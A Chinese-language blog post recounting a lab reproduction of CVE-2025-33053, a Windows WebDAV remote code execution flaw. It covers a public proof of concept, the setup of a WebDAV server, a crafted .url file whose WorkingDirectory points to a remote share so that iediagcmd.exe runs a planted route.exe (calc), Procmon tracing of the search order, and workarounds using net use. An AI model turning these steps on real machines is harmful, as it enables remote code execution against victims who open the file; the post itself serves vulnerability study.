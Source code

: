#  CVE-2025-33053 Poc复现研究细节  
原创 MicroPest  MicroPest   2025-06-28 15:06  
  
今天看到这个CVE Poc，来了兴趣，进行了复现，但并不顺利。开始时死活不弹出计算器测试程序，这个过程持续了一下午+一晚上，终在晚上9时，捣鼓出来了，花了2个小时截图、写文章。我觉得网上那些人，咋做得那么顺利呢？曲折有曲折的好处，通过这些过程，让我对其中的细节理解地更深体会更深。  
  
就这样吧，脖子受不了了。  
  
2025 年 6 月的 Windows 更新修复了CVE-2025-33053漏洞，这是一个远程代码执行漏洞，目前已发现有人在野外利用。该漏洞允许指向合法本地 Windows 可执行文件的恶意 URL 文件在打开时从攻击者位于互联网上的服务器“侧载”DLL 或 EXE 文件。注意的是，虽然微软将此漏洞命名为“WEBDAV RCE远程代码执行”，但该漏洞通常可以通过任何 SMB 网络共享（包括内部网络共享文件夹）进行利用。然而，由于大多数防火墙和互联网服务提供商会阻止 SMB 流量，因此WebDAV 的攻击场景更加强大，因为它允许恶意 DLL 直接穿过防火墙从互联网上的服务器加载。  
  
**这个漏洞有点象当年的DLL劫持一样，利用了windows搜索顺序逻辑。**  
  
****  
攻击者使用指向 WebDAV 服务器的.url恶意快捷方式。当 Windows 执行合法工具（例如IE/Edge）时，它会默认进入远程文件夹并运行攻击者控制的二进制文件（例如），而不是本地文件。  
  
  
Poc地址：  
https://github.com/DevBuiHieu/CVE-2025-33053-Proof-Of-Concept  
  
使用过程，见网上很多文章，介绍下我的研究细节，  
  
1、执行 ./setup_webdav.sh，搭建webdav服务器，如下图部署成功。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLOfN4MsS96Y4nOraMJEtn8ffIMibq5yLZVI08ebMkpFzRmmrGtP6KP0vQ2y5avgNFKfn73sibT7rTQ/640?wx_fmt=png&from=appmsg "")  
  
将calc.exe copy到/var/www/webdav目录下改名为route.exe，以及  
C:\Program Files\Internet Explorer\iediagcmd.exe也copy到同目录下。  
  
访问   
http://192.168.239.128/webdav，如下图表示成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLOfN4MsS96Y4nOraMJEtn8zUYcg1LOLa4HKDG8NC2dR84e0Sibzw6eA4Kub2Eaib8IoQu6Ax1nSzyw/640?wx_fmt=png&from=appmsg "")  
  
2、生成url文件，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLOfN4MsS96Y4nOraMJEtn8So8Q4xiazVPoKopiceZbh4k1IJicJENTrSpfAJRCgWKJTAGd0s411s7tw/640?wx_fmt=png&from=appmsg "")  
  
说下上图中url的执行顺序，  
  
先执行  
URL=C:\Program Files\Internet Explorer\iediagcmd.exe，当它运行时会收集一些信息，这是正常的功能，其中包含了一项功能就是route，所以它会调用route.exe，这时顺序来了，从哪找起呢，注意url的第二行  
WorkingDirectory=\\192.168.239.128\webdav\  
，会从webdav服务器上找route这个程序，所以会执行route.exe这个程序，而route.exe是计算器，因此弹出了calc。如果这是个木马，就隐蔽地执行了。  
  
3、将这个生成的doc.url放到windows本机上，双击，发现并没有弹出名为route.exe的计算器calc程序（后面又弹出了，刚开始时始终不行。下面的截图都是成功弹出）；  
  
一、成功状况下地分析  
  
4、架起procmon、procexp进行分析  
  
监视iediagcmd.exe以及route.exe程序的运行状态  
  
当我截上面这张图时，弹出了计算器，发现是执行成功了，刚才死活不行的。  
  
（4-1）我们来看下iediagcmd.exe的执行顺序，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLOfN4MsS96Y4nOraMJEtn88RzhBEG9Mn5MicOITGxsBBu3wWH4VOcteo8BmgtQrK08GKpibZj5P1xg/640?wx_fmt=png&from=appmsg "")  
  
找ipconfig，先在当前目录和webdav下找，没找到，转去system32下。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLOfN4MsS96Y4nOraMJEtn8iac8v50GeN9MgkeQhAHI7H3KCNxEFGGlWEf0mkAhTZnaAw3ys0wm0yQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLOfN4MsS96Y4nOraMJEtn8EzoXCnL2yfEewOw03Afm3xeRzpWvwHSEEpjPKRjQlgAfnpMYhQxRkA/640?wx_fmt=png&from=appmsg "")  
  
接着找route，当前目录下没有，就去webdav下找，发现了，执行它。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLOfN4MsS96Y4nOraMJEtn8Ykry790DlhAOicoU5O1tDe4DQ4BPJ95NQe0KL5UHHSvxngZE4TeyBgA/640?wx_fmt=png&from=appmsg "")  
  
接着找mpr.dll；  
  
不往下截图了。顺着找，可以将iediagcmd所有调用的收集程序全部找出来，也就意味着webdav服务器可以存放这些“冒名”的程序供它下载执行。  
  
（4-2）看下procexp，  
iediagcmd调用了route.exe，如下图。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLOfN4MsS96Y4nOraMJEtn847wTZicdeJUxf3sWPFAmlzIBVBibK1S86LKJSoSUpDFIWPLYuwLVfiaQA/640?wx_fmt=png&from=appmsg "")  
  
  
====  
  
二、不成功状态下的方法  
  
我接着来说前面没执行成功时的做法：  
  
方法1：  
  
将url第一行   
URL=C:\Program Files\Internet Explorer\iediagcmd.exe  
  
改成：  
  
URL=\\192.168.239.128\webdav\route.exe  
  
让它直接执行，这法子果然可行；  
  
方法2：powershell下执行  
  
net use z: \\192.168.239.128\webdav  
  
dir z:  
  
直接打开共享；后面我关闭了net use z: /delete。  
  
通过上面两种方法，现在改回   
URL=C:\Program Files\Internet Explorer\iediagcmd.exe，发现可以弹出route.exe计算器了。  
  
  
=====  
  
《[CVE-2025-33053，Stealth Falcon 和 Horus：中东网络间谍活动传奇](https://mp.weixin.qq.com/s?__biz=MzAxMjYyMzkwOA==&mid=2247531295&idx=2&sn=1bf7b0c5827626d1954d97ddab0be670&scene=21#wechat_redirect)  
》对整个攻击链的分析，值得一看。  
  
  
###   
  
  

